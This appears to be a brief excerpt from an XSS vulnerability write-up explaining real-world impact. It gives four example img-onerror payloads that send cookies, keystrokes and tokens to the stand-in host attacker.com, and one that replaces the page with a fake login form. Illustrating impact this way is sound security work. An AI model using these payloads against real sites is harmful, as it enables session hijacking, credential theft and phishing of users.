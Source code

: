 ### Real-World Impact: {#real-world-impact}

While we used `print()` as a proof-of-concept, this vulnerability allows arbitrary JavaScript execution. Real attacks could:

-   **Session Hijacking**:
    ```javascript
      <img src=1 onerror="fetch('//attacker.com?c='+document.cookie)">
    ```
-   **Keylogging**:
    ```javascript
      <img src=1 onerror="document.onkeypress=e=>fetch('//attacker.com?k='+e.key)">
    ```
-   **Phishing**:
    ```javascript
      <img src=1 onerror="document.body.innerHTML='<fake-login-form>'">
    ```
-   **Token Theft**:
    ```javascript
      <img src=1 onerror="fetch('//attacker.com?t='+localStorage.getItem('token'))">
    ```

The attacker just needs to trick a user into clicking a link or visiting a page with the malicious iframe - no other interaction required.
